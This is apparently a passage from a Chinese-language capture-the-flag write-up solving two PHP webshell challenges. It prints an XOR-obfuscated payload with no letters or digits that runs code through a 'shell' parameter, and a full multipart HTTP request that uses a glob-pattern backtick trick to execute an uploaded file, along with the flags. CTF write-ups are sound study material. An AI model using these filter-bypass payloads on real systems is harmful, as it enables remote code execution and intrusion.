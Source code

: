 [一些不包含数字和字母的webshell | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

原理参考上文，用`hackbar`发送请求：

```
http://127.0.0.1:14333/?shell=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); $__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); $___=$$__;$_($___[_]);

value:_=phpinfo();
```

```
moectf{6f88c899-f037-947f-4432-0607658c9b2b}
```

## 这是...Webshell?_revenge

> 这下彻底没得做了...吧？

[无字母数字webshell之提高篇 | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

原理参考上文，用`burpsuite`抓包并发送请求：

```
POST /?shell=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: 127.0.0.1:50230
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTraeCTF
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Length: 165

------WebKitFormBoundaryTraeCTF
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

env
------WebKitFormBoundaryTraeCTF--
```

```
moectf{97583404-f843-e747-6744-e9bc4ff6c536}
```

